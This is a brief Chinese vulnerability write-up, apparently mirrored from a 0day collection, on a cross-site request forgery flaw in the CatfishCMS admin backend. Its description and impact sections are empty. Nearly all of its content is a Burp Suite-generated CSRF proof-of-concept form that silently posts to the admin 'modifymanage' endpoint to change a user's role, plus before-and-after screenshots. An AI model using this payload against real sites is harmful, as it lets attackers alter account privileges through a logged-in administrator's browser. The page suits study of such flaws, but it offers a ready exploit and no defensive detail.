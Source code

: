 # CatfishCMS 后台 csrf

> 原文：[http://book.iwonder.run/0day/CatfishCMS/2.html](http://book.iwonder.run/0day/CatfishCMS/2.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

首先需要登录后台

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
  <form action="http://0-sec.org/index.php/admin/index/modifymanage.html?c=73" method="POST">
      <input type="hidden" name="uid" value="73" />
      <input type="hidden" name="juese" value="3" />
      <input type="hidden" name="verification" value="05f176843c20e12c1364e80b9869ac17" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```

修改前

![image](img/937c6ab703ffe6bed63b25042c30cf6b.png)

修改后

![image](img/5ddb0cca44597f4e0e89d2d0f64cd077.png)


